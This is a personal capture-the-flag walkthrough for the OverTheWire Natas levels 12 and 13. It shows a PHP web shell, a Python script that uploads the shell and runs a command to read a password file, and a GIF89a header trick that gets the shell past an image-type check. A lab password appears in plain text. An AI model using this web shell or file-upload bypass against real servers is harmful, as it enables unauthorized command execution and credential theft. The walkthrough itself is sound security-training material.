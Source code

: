 
2024-07-14 18:54

Source:   #natas #web 

Tags: [[Local File Inclusion & Command Injection]]
## Natas12

we have a unrestricted file upload functionality 

create a [[php]] file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```php
<?php
	system($_GET['c']);
?>
```

```python
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.
## Natas13

similar to natas12, here we have a `php` module named `exif_imagetype` that [[image upload]]checks if the file uploaded is an image and within the size limit of 1kb 

`exif_imagetype` checks for file signatures

we add `GIF89a` at the start of our payload `php` file making the contents of the file as 
```php
GIF89a
<?php
system($_GET['c']);
?>
```

rest of the process is same as natas12

### References
https://www.youtube.com/watch?v=fqwxYowJA0c
